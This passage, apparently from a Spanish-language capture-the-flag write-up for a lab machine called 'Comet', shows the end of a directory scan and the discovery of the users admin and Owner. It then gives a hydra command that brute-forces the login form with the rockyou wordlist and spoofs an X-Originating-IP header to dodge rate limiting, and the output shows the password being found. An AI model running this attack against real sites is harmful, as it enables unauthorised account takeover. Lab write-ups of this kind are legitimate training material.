 ```bash
Progress: 879479 / 882244 (99.69%)
===============================================================
2023/03/27 09:02:37 Finished
===============================================================
```

Al ingresar al login e intentar enviar un prueba de login luego como que la pagina se cae o no me deja hacer mas solicitudes y tenemos que esperar un rato a que nos deje hacer nuevamente otra solicitud
![](/img/Comet/comet1.png)
De la misma manera viendo un poco mas la pagina vimos que existen dos usuarios ``admin | Owner``
![](/img/Comet/comet2.png)

## Fuerza bruta
Entonces decidi intentar un ataque de fuerza bruta junto con hydra.

```bash
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.2.35 http-post-form "/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP:test:F=Invalid"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-27 09:21:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.0.2.35:80/login.php:username=admin&password=^PASS^:H=X-ORIGINATING-IP:test:F=Invalid
[STATUS] 4591.00 tries/min, 4591 tries in 00:01h, 14339808 to do in 52:04h, 16 active
[80][http-post-form] host: 10.0.2.35   login: admin   password: *******io
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-27 09:23:17
```